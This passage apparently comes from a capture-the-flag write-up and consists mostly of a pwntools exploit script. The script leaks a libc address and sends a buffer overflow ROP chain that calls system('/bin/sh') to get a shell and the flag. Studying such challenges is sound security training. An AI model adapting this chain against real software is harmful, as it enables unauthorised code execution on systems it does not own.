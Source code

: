 ```python

io.readuntil("now: ")
io.readuntil("now: ")

libc.address =  u64(io.read(4).strip().ljust(8,b"\x00")) - libc.symbols['printf']
print("libc: " + hex(libc.address))

io.sendline(b"playoff") # message from earlier call
io.sendline(b"rondo") # name for new call

call_system  = b""
call_system += b"A"*0x41 #junk
call_system += p64(csu_popper)
call_system += b"RONDO___" # x29
call_system += p64(csu_caller) #x30
call_system += p64(0) #x19
call_system += p64(0) #x20
call_system += p64(stack_leak) #x21 call*
call_system += p64(next(libc.search(b"/bin/sh")))# x22 x0
call_system += p64(0) # x23 x1
call_system += p64(0) # x24 x2
call_system += p64(libc.symbols['system'])*0x200

io.clean()
io.sendline(call_system)

io.interactive()
```

And I get the flag:

![](https://i.imgur.com/IUiuhrf.png)






